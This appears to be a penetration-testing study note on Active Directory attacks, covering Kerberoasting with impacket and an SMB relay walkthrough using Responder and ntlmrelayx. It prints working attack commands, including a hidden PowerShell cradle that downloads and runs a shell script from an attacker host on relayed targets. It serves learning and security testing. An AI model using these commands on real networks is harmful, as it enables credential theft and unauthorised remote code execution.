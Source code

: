**Active Directory** (AD) is a directory service developed by Microsoft for managing and organizing information about network resources, such as computers, users, and devices, within a Windows network environment. It serves as a centralized database that enables administrators to efficiently and securely manage and authenticate users, computers, and other network elements.

Useful video: https://www.youtube.com/watch?v=-bNb4hwgkCo&t=1s
# Kerberoasting
It is a method used to extract and crack service account passwords that utilize Kerberos authentication within a Windows Active Directory environment. This attack targets accounts with Kerberos Service Principal Names (SPNs) set, allowing attackers to request encrypted service tickets from the domain controller.
- One method that can be used is using 'impacket-GetUserSPNs'. If we have a user with a username ended in *TGS* that means that is part of a TICKET GRANTING SERVICE. We can use this to ask a ticket to the Domain Controller.
```bash
impacket-GetUserSPNs -request -dc-ip target_ip domain_name/user
```

# SMB Relay

**SMB Relay** is a type of attack that targets the Server Message Block (SMB) protocol used primarily for providing shared access to files, printers, and serial ports in a network.

The attack involves intercepting and relaying SMB authentication attempts to another SMB server, allowing an attacker to gain unauthorized access or execute commands with the victim's credentials.

## Key Concepts

1. **SMB (Server Message Block) Protocol**:
    
    - A network protocol used for sharing files, printers, and serial ports.
    - Operates over TCP/IP using ports 139 and 445.
2. **NTLM (NT LAN Manager) Authentication**:
    
    - A suite of Microsoft security protocols intended to provide authentication, integrity, and confidentiality to users.
    - SMB often uses NTLM for authentication.
3. **Relay Attack**:
    
    - An attacker intercepts the authentication process.
    - Instead of cracking the intercepted credentials, the attacker relays them to another server to authenticate.

## Attack Process

1. **Configuring Responder**:
- Modify the `Responder.conf` configuration file to enable or disable specific protocols. For SMB relay, ensure that SMB and HTTP are set to `On` and that `HTTP Server` is also enabled.
```java
sudo nano /etc/responder/Responder.conf
```
2. **Intercept**:
- The attacker sets up a malicious SMB server to intercept authentication attempts.
- The attacker needs to position themselves in the network to intercept SMB traffic (Man-in-the-Middle), this can be done with *Responder*.
```java
python3 Responder.py -I <interface> -rdw
```
3. **Cracking hashes**:
- After some time different user hashes would be captured by the Responder. All this hashes can be cracked using tools as *John* or *Hashcat* before executing the relay. 

4. **Setting Up SMB Relay with Impacket**:
- Create a `targets.txt` file that contains the IP addresses of the target servers you want to relay the credentials to.
- Use Impacket's **ntlmrelayx.py** script to relay the captured credentials to another target server.
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support
```
5. **Gaining access**:
- Create a simple reverse shell payload that can be executed on the target host. For example, using PowerShell for a Windows target:
```bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "iex(New-Object Net.WebClient).DownloadString('http://attacker-ip/shell.ps1')"
```
	
-  Host the `shell.ps1` script on your attacker machine (e.g., using a simple HTTP server).
```bash
python3 -m http.server 80
```
- Run NTLMRelayx.py with the Reverse Shell Command:
```bash
`sudo ntlmrelayx.py -tf targets.txt -smb2support -c "powershell -NoP -NonI -W Hidden -Exec Bypass -Command \"iex(New-Object Net.WebClient).DownloadString('http://attacker-ip/shell.ps1')\""`
```